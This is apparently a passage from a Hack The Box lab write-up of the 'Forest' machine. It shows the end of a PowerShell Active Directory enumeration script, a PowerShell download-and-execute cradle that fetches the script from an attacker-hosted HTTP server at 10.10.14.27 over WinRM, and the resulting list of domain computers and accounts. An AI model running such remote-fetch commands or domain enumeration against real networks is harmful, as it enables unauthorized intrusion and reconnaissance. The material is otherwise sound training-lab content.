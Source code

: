 ```powershell
    $lm=[System.Collections.ArrayList]@();
    $o.Properties.member|?{$lm.add($_.split(",")[0].replace("CN=",""))};
    $lm=$lm|select -unique;
    $m.add((New-Object psobject -Property @{
      OU = $o.Properties.name[0]
      M = [string]::Join(", ",$lm)
    }));
    $lm | ?{
      $s.filter=[string]::Format("(name={0})",$_);
      $s.FindAll()|?{_r $_ $m | out-null};
    }
  }
}
$m=[System.Collections.ArrayList]@();
$s.FindAll()|?{_r $_ $m | out-null};
$m|sort-object OU -unique|?{write-host ([string]::Format("[OU] {0}: {1}",$_.OU,$_.M))};
```

Then host and execute on the target through WinRM:

```bash
# on kali, host payload
sudo python3 -m http.server 80
# in target WinRM session, execute payload
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.27/bubba')
```

This will return the following:

```
-- COMPUTERS --
LDAP://CN=FOREST,OU=Domain Controllers,DC=htb,DC=local
LDAP://CN=EXCH01,CN=Computers,DC=htb,DC=local
-- USERS --
LDAP://CN=Administrator,CN=Users,DC=htb,DC=local
LDAP://CN=Guest,CN=Users,DC=htb,DC=local
LDAP://CN=DefaultAccount,CN=Users,DC=htb,DC=local
LDAP://CN=krbtgt,CN=Users,DC=htb,DC=local
LDAP://CN=Exchange Online-ApplicationAccount,CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1},CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c},CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9},CN=Users,DC=htb,DC=local
LDAP://CN=DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852},CN=Users,DC=htb,DC=local
LDAP://CN=Migration.8f3e7716-2011-43e4-96b1-aba62d229136,CN=Users,DC=htb,DC=local
LDAP://CN=FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042,CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201},CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA},CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9},CN=Users,DC=htb,DC=local
LDAP://CN=HealthMailboxc3d7722415ad41a5b19e3e00e165edbe,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailboxfc9daad117b84fe08b081886bd8a5a50,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailboxc0a90c97d4994429b15003d6a518f3f5,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailbox670628ec4dd64321acfdf6e67db3a2d8,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailbox968e74dd3edb414cb4018376e7dd95ba,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailbox6ded67848a234577a1756e072081d01f,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailbox83d6781be36b4bbf8893b03c2ee379ab,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailboxfd87238e536e49e08738480d300e3772,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
```